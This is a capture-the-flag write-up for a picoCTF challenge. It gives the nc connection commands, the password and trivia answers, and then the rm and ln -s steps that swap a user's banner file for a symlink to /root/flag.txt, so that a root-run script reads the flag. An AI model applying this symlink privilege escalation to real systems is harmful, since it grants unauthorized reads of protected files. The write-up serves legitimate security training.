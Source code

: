 # Solution "Don't you love banners?"
This challenge practices exploiting symbolic link (symlink) vulnerabilities to escalate privileges. Read more about symlinks here: https://www.twingate.com/blog/glossary/symlink-attack

## Step 1: Connect to the Initial Port
Firstly, you need to connect to the port 63933 using this command: `nc tethys.picoctf.net 63933`. This connection will provide you with a password required for the next step: `My_Passw@rd_@1234`.

## Step 2: Connect to 50012
Using the password, connect to the next port (50012): `nc tethys.picoctf.net 50012`. Then you need to answer 2 questions:
```bash
What is the top cyber security conference in the world?
DEF CON
the first hacker ever was known for phreaking(making free phone calls), who was it?
John Draper
```

## Step 3: Explore
Once authenticated, you will find yourself logged in as a user named player. Check the files in the current directory using `ls -lha`. You will find 2 files, focus on the banner file:
```bash
-rw-r--r-- 1 player player  114 Feb  7  2024 banner
-rw-r--r-- 1 root   root     13 Feb  7  2024 text
```

Then, navigate to the `root` directory using `cd /root`, and check the files:
```
player@challenge:/root$ ls -lha
-rwx------ 1 root root   46 Mar 12  2024 flag.txt
-rw-r--r-- 1 root root 1.3K Feb  7  2024 script.py 
```

As you can see, as a user we cannot read, write or modify the flag file. Instead, focus on the `script.py`. You’ll find that it reads the banner file with root privileges. This is the critical insight: if we can make the banner file point to flag.txt, script.py will read the flag for us.

## Step 4: Symplink Vulnerability
To achieve this, create a symbolic link (symlink) pointing the banner file to flag.txt (do not forget to delete banner firstly!):
```bash
player@challenge:/root$ rm /home/player/banner  # Delete a banner file
player@challenge:/root$ ln -s /root/flag.txt /home/player/banner # Create a symlink
```

Finally, after setting up the symlink, exit the current session and reconnect to port 50012. You will find your flag!



